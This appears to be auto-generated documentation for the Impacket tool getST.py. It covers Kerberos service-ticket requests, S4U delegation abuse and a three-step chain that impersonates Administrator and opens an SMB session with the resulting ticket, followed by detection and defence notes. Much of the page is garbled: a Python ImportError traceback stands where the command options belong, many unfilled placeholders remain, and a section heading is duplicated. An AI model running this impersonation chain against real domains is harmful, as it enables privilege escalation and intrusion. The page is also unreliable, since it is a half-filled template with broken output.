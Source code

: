 # getST.py

## Overview
`getST.py` is a kerberos authentication tool in the Impacket suite. Given a password, hash, aesKey or TGT in ccache, it will request a Service Ticket and save it as ccache

## Detailed Description
Given a password, hash, aesKey or TGT in ccache, it will request a Service Ticket and save it as ccache

### Key Features:
- **Service ticket (TGS) requests for any SPN**: Core functionality
- **S4U2Self and S4U2Proxy delegation support**: Core functionality
- **Impersonation capabilities**: Core functionality
- **Multiple authentication methods**: Core functionality
- **ccache file output for ticket reuse**: Core functionality
- **Multiple Authentication**: Support for password, hash, and Kerberos authentication
- **Cross-Platform Compatibility**: Works with various Windows versions

### Technical Details:
- Uses [specific protocol/technique]
- Leverages [specific Windows API/service]
- Implements [specific attack technique]
- Compatible with [specific versions/systems]

## Command Line Options

```
getST.py [options] target
```

Traceback (most recent call last):
  File "/home/tim/impacket/examples/getST.py", line 63, in <module>
    from impacket.examples.utils import parse_identity
ImportError: cannot import name 'parse_identity' from 'impacket.examples.utils' (/home/tim/.local/lib/python3.12/site-packages/impacket/examples/utils.py)


## Usage Examples

### Basic Usage
```bash
# Basic command execution
python3 getST.py [basic_parameters]

# With authentication
python3 getST.py domain.com/user:password@target.domain.com

# Using hash authentication
python3 getST.py -hashes :ntlmhash domain.com/user@target.domain.com
```

### Advanced Usage
```bash
# Advanced example 1
python3 getST.py [advanced_parameters]

# Advanced example 2
python3 getST.py [advanced_parameters_2]

# Debug mode
python3 getST.py DOMAIN/user:password -spn service/target -debug
```

## Attack Chain Integration

### [Specific Attack Scenario]
```bash
# Step 1: [First step description]
python3 getST.py [step1_parameters]

# Step 2: [Second step description]
python3 [related_tool] [step2_parameters]

# Step 3: [Third step description]
python3 [another_tool] [step3_parameters]
```

### Kerberos Service Ticket Attacks
```bash
# Step 1: Get TGT for user with delegation privileges
python3 getTGT.py DOMAIN/user:password -dc-ip dc-ip

# Step 2: Use getST.py to request service ticket with impersonation
python3 getST.py DOMAIN/user:password -spn cifs/target.domain.com -impersonate Administrator

# Step 3: Use the obtained service ticket for access
export KRB5CCNAME=Administrator.ccache
python3 smbclient.py target.domain.com -k -no-pass
```

## Prerequisites
- Valid domain credentials for user with constrained delegation privileges
- Network access to domain controller (Kerberos ports 88/464)
- Target Service Principal Name (SPN) configured for delegation
- Understanding of Kerberos S4U2Self and S4U2Proxy attacks

## Detection Considerations
- **Event IDs**: 4769 (Kerberos service ticket requested), 4768 (Kerberos TGT requested), 4624/4625 (Logon events)
- **Network Indicators**: Kerberos traffic to domain controllers (port 88), unusual S4U requests
- **Process Indicators**: Service ticket requests with impersonation flags
- **File Indicators**: .ccache files containing Kerberos tickets
- **Registry Indicators**: No direct registry modifications

## Defensive Measures
- Monitor for S4U2Self and S4U2Proxy requests in Kerberos logs
- Audit constrained delegation configurations and limit delegation privileges
- Implement advanced threat protection to detect abnormal Kerberos patterns
- Use Kerberos Armoring (FAST) to protect against ticket manipulation
- Regular review of service accounts with delegation privileges

## Common Issues and Troubleshooting

### Delegation Permission Errors
```bash
# Problem: KDC_ERR_S_PRINCIPAL_UNKNOWN or KDC_ERR_BADOPTION
# Solution: Verify user has constrained delegation permissions
python3 getST.py DOMAIN/user:password -spn service/target -impersonate user -debug
```

### SPN Not Found Errors
```bash
# Problem: Service Principal Name not found in Active Directory
# Solution: Verify SPN exists and is properly configured
setspn -Q service/target.domain.com
```

## Related Tools

## Related Tools
- [getST.py](link.md) - Related functionality
- [secretsdump.py](secretsdump.md) - Often used together
- [psexec.py](psexec.md) - Lateral movement tool
- [GetUserSPNs.py](GetUserSPNs.md) - Credential attacks

---

*Note: This documentation is a template. Please refer to the actual tool's help output and source code for complete and accurate information.*
